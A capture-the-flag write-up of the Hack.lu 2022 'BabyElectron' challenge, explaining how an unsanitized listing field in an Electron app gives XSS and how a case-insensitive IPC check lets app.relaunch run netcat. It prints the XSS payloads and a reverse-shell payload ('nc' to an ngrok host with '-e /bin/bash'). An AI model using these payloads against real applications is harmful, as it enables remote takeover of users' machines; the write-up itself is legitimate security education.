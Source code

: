 ```yaml
---
title:  "BabyElectron"
date:   "2022-10-29"
tags: ["Hack.lu 2022 CTF", "web", "XSS", "RCE"]
author: "punshLineLama"
coverImagePath: "img/hacklu2022_electron.png"
---
```


## Description
So you wanted to get into Electron Pwning? Your friend found a nice app, leaked its backend source from a Github repo he found while doxing some Luxembourg Real Estate Company. Pwn away by getting RCE! If you run into problems while setting it up reach out. This is the first flagstore for babyelectron. 

There are two flags: one in /flag which you can submit here and one in /printflag which you can submit at babyelectronV2

# The challenge
The whole source code of the app, as well as the server-side code was provided.

The electon app could be used used to buy, sell and report real estate objects.
You can also report a real estate listing, which is then checked by a bot. 
The goal is to get code execution of the machine of the bot, which is visiting the reported listing.


# The solution
The solution comprised two steps: 
- First, you needed to get XSS in the electron app.
- Second, you needed to abuse the IPC function and get RCE.

## Setup
To make our lives easier, we started the electon app with: `electron . --proxy-server=127.0.0.1:8080` to be able to route the traffic of the app through burp.
Furhtermore, we enabled the developer tools by commenting out: `mainWindow.webContents.openDevTools()` in main.js

## First step - Getting XSS
In the support.js function from the `app` code, we see the following:

```
// security we learned from a bugbounty report
    listing.msg = DOMPurify.sanitize(listing.msg)

    const div = `
        <div class="card col-xs-3" style="width: 18rem;">
            <span id="REL-0-houseId" style="display: none;">${listing.houseId}</span>
            <img class="card-img-top" id="REL-0-image" src="../${listing.image}" alt="REL-img">
            <div class="card-body">
              <h5 class="card-title" id="REL-0-name">${listing.name}</h5>
              <h6 class="card-subtitle mb-2 text-muted" id="REL-0-sqm">${listing.sqm} sqm</h6>
              <p class="card-text" id="REL-0-message">${listing.message}</p>
              <input type="number" class="form-control" id="REL-0-price" placeholder="${listing.price}">
            </div>
        </div>
        <div>
            ${listing.msg}
        </div>
  `
```
listing.msg does get sanitized, however the other parameter do not.
The idea is to get script execution using `listing.message` parameter.

On the first impression its only possible to write the listing.msg parameter which gets posted with the report to get XSS.
As its gets sanitized, this is not possible.

However, when selling a real estate you can specify the `listing.message` when intercepting the message with burp.
So we altered the message parameter of to `<img src=x onerror=\"alert(1);\">`

Then, we checked if the XSS worked, by visiting the support page with out own electron app. 
Therefor we simply added a reference index.html s.t. it also had a link to the support page:

```html
<li class="nav-item">
    <a class="nav-link" href="../views/support.html">
      Support
    </a>
</li>
```
And also included links on the support.html page to navigate back to the other pages:
```html
<div>
    <a href="../views/index.html">Home</a>
    <a  href="../views/listings.html">Buy</a>
    <a  href="../views/portfolio.html">My Portfolio</a>
    <a  href="../views/support.html">Support</a>
</div>
```

We then navigated to the support page and intercepted the http request with burp and filled in the id, given when reporting the listing.
Thus, we could confirm the XSS.

## Step 2

Now we need to get RCE with the XSS.
Hacktricks has a nice atricle on how to get RCE from XSS in electon: https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/xss-to-rce-electron-desktop-apps
As contextIsolation is tured on - `contextIsolation: true` in main.js, we figured, that we could give it a try via RCE via IPC.

The preload.js contained the following:

```js
const RendererApi = {
  invoke: (action, ...args)  => {
      return ipcRenderer.send("RELaction",action, args);
  },
};
```
It looks like we have a ipc method called `invoke`.
Lets check which function it allows us to execute in main.js:

```js
app.RELbuy = function(listingId){
  return
}

app.RELsell = function(houseId, price, duration){
  return
}

app.RELinfo = function(houseId){
  return
}

app.RElist = function(listingId){
  return
}

app.RELsummary = function(userId){
 return 
}

ipcMain.on("RELaction", (_e, action, args)=>{
  //if(["RELbuy", "RELsell", "RELinfo"].includes(action)){
  if(/^REL/i.test(action)){
    app[action](...args)  
  }else{
    // ?? 
  }
})
```

It looks like we can execute every method that starts with REL. However, the regex check is case insensitive.
Lets see if we can find an electon api app function whose name start with `rel` that might be useful. 
We find `relaunch` https://www.electronjs.org/de/docs/latest/api/app

After a bit of trial and error and reading the docs, we could achive RCE with this javascript function: 
`api.invoke("relaunch", {args: ["4.tcp.ngrok.io", "133573", "-e", "/bin/bash"], execPath:"nc"})`

Now we just needed to put that into our XSS script and let the bot visit it to get a reverse shell back.

We posted that to /sell:
```json
"message" : "<img src=x onerror=\'api.invoke('relaunch', {args: ['4.tcp.ngrok.io', '133573', '-e', '/bin/bash'], execPath:'nc'})\">"
```
We then got the id back, which we then submitted to the bot and got a shell back. The shell only lasted for 15 secs, so we needed to be quick to print out both flag ^^. but after some attemts we got both flags.

Big thanks to Alain who helped a lot during the challenge. :)